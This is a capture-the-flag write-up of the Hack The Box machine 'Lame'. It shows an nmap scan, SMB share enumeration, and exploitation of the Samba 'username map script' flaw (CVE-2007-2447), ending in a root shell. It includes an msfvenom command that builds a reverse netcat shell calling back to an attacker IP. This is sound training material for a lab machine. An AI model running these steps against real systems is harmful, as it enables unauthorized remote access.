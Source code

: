 # **Lame - Manual Exploit**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/f04b0bc2-ab55-4653-97af-c0a4e3fe1c00)
## **Difficulty = Easy**

***

Running our nmap scan we have

```bash
# Nmap 7.94 scan initiated Sat Jul 29 07:48:57 2023 as: nmap -p21,22,139,445 -sCV -T4 -oN nmap.txt -Pn 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.41s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-07-29T07:49:32-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m11s, deviation: 2h49m47s, median: 7s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 29 07:50:03 2023 -- 1 IP address (1 host up) scanned in 65.54 seconds
```


We have anonymous access to `FTP` but can't put files inside it, also there are no files inside it



![](https://i.imgur.com/bSaU84S.png)



Using `smbmap` to enumerate shares we have `READ, WRITE` permissions on only one share (**tmp**)


![](https://i.imgur.com/VSomNYl.png)



Connecting to the share with `smbclient` we have

![](https://i.imgur.com/D6kxUwF.png)


We can go ahead and download all of this files


![](https://i.imgur.com/bWH5nOp.png)



Only 2 where permitted for us to download

![](https://i.imgur.com/2Inhe8V.png)



Nothing still seems interesting in this files

![](https://i.imgur.com/TWwgsRu.png)


Checking the smb version, i found out it is vulnerable to **Username' map script' Command Execution** (CVE-2007-2447), we can go ahead and download the exploit from [here](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851)

- Make sure `pysmb` is installed

```bash
sudo pip2 install pysmb
```

- Then run this command replacing `LHOST` with your `tun0` IP address and copy the shellcode

```bash
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.90 LPORT=1337 -f python
```


![](https://i.imgur.com/y0V3ogk.png)


- Replace it with the default shellcode in the script


![](https://i.imgur.com/53U01Ng.png)

Run the script with `python2` and get a reverse shell

![](https://i.imgur.com/sVyEjed.png)


Hell yeah, we got reverse shell as user **root**


![](https://i.imgur.com/cC4hfAQ.png)

